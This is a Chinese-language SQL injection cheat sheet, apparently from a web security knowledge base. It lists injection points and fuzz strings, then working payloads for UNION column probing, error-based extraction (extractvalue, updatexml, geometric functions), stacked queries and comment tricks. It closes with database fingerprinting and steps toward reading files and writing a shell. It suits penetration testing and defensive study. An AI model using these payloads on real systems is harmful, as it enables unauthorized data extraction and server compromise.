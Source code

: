 注入检测
=====================================

常见的注入点
--------------------------------------
- GET/POST/PUT/DELETE参数
- X-Forwarded-For  客户端真实IP地址，有些网站会写入数据库
- cookies
- 文件名

Fuzz注入点
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

测试用常量
--------------------------------------
- ``@@version``
- ``@@servername``
- ``@@language``
- ``@@spid``

测试列数
--------------------------------------
例如 ``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回

报错注入
--------------------------------------
- ``select 1/0``
- ``select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a``
- ``extractvalue(1, concat(0x5c,(select user())))``
- ``updatexml(0x3a,concat(1,(select user())),1)``
- ``exp(~(SELECT * from(select user())a))``
- ``ST_LatFromGeoHash((select * from(select * from(select user())a)b))``
- ``GTID_SUBSET(version(), 1)``

基于geometric的报错注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``GeometryCollection((select * from (select * from(select user())a)b))``
- ``polygon((select * from(select * from(select user())a)b))``
- ``multipoint((select * from(select * from(select user())a)b))``
- ``multilinestring((select * from(select * from(select user())a)b))``
- ``LINESTRING((select * from(select * from(select user())a)b))``
- ``multipolygon((select * from(select * from(select user())a)b))``

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 `commit 95825f <https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04>`_ 。

而以上列表中基于geometric的报错注入在这个 `commit 5caea4 <https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978>`_ 中被修复，在5.5.x较后的版本中同样不再生效。

堆叠注入
--------------------------------------
- ``;select 1``

注释符
--------------------------------------
- ``#``
- ``--``
- ``--+``
- ``/*xxx*/``
- ``/*!xxx*/``
- ``/*!50000xxx*/``

判断过滤规则
--------------------------------------
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

获取信息
--------------------------------------
- 判断数据库类型
    - ``and exists (select * from msysobjects ) > 0`` access数据库
    - ``and exists (select * from sysobjects ) > 0`` SQLServer数据库

- 判断数据库表
    - ``and exsits (select * from admin)``

- 版本、主机名、用户名、库名
- 表和字段
    - 确定字段数
        - ``order by``
        - Select Into
    - 表名、列名

测试权限
--------------------------------------
- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求

